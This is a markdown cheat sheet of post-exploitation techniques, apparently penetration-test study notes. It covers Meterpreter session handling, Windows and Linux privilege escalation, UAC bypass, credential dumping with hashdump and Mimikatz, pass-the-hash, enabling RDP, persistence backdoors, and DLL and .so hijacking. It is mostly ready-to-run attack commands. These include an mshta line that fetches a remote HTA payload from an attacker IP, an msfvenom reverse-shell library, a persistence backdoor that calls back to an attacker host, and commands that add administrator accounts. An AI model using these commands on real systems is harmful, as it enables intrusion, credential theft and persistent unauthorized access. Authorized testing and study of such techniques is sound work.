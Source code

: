 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> use incognito` - use commands from this module (e.g. `list_tokens`)
  * if `impersonate_token` doesn't work, migrate to a different process first (e.g. _w3wp_)
* `run post/multi/recon/local_exploit_suggester`
</br>__UAC__</br>
* `meterpreter> run post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* manual - https://github.com/hfiref0x/UACME

#### Tools
PowerUp - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1</br>
* `. ./PowerUp.ps1`
* `Invoke-CheckAll`
* when running functuions from PowerUp remember to check commands of exploits
  * `Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"`
  * `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`

WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS</br>

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/unquoted_service_path` - module for exploiting unquoted path vulnerable instances
* abuse services
  * _AppReadiness_
    * add users to Administrators group - `sc config AppReadiness binPath= "cmd /c net localgroup Administrators <current-user> /add`
    * get system using Microsoft HTA (with powershell and PowerUp.ps1) - `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`
 

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
#### Metasploit
* msf> `use exploit/linux/local/glibc_origin_expansion_priv_esc` - glibc vulnerability
* msf> `use exploit/linux/local/*` - double tab
  
#### Tools
* `linux_exploit_suggester <-k kernel-version>` - https://github.com/The-Z-Labs/linux-exploit-suggester

#### General
* Replace executable
* crontab
* root squashing
* `man -P "id" man`
* docker sudo exploit
* escape from restricted shells - `rbash`
   * use _shell escapers_
   * `find /home/bob -name test -exec /bin/sh \;` - ! shell will execute only if the file exists: _-name **test**_
   * `python -c 'import pty;pty.spawn("/bin/sh")'`
   * `perl -e 'exec "/bin/sh"'`
   * `ssh <restricted_user>@server -t "/bin/sh"`
* Hijacking **.so** libraries
  * exploittion works the same way as DLL in windows
  * the executable must load the malicious .so using a user with elevated prvileges (root)
  1. determine the shared object libraries loaded
     * `ldd </usr/local/bin/program>` - note the name of looded .so files
  3. determine if theexecutable was compiled with RPATH or RUNPATH
     * `objdump -x </usr/local/bin/program> | grep RPATH`
     * `objdump -x </usr/local/bin/program> | grep RUNPATH`
  4. generate malicious .so with `msfvenom`
     * `msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f elf-so -o program.so`. !_program.so_ name must be found in loaded .so files found with `ldd`!
  5. copy the malicious files in one of the location used by the executable to load shared object libraries (higher up in the list the better)
* kernel exploits


# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* msf> `migrate <PID>` - migrate to a x64 processes
* meterpreter> `load mimikatz`

#### MimiPenguin - Linux
* `./mimipenguin.sh` or `./mimipenguin.py`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%
* search privileges on destination folder
  * `get-acl 'c:\users\administrator\desktop\dvta\bin\release' | format-list` - check if current user has write permissions on destination folder

## .so Hijacking (Linux)
* abuses the __.so Search Order__
1. any directory specified by `-rpath-link` option (RPATH)
2. any directories specified by `-rpath` options (RPATH)
3. content of environmental variables: `LD_RUN_PATH` and `LD_LIBRARY_PATH`
4. directories specified in environmental variables: `DT_RUNPATH` and `DT_RPATH`
5. `/lib` and `/usr/lib`
6. any directory specified in `/etc/ld.so.conf`

## Cool Resources
* https://wiki.zacheller.dev/pentest/post-exploitation/maintaining-access
* https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
* https://csbygb.gitbook.io/pentips/windows/privesc
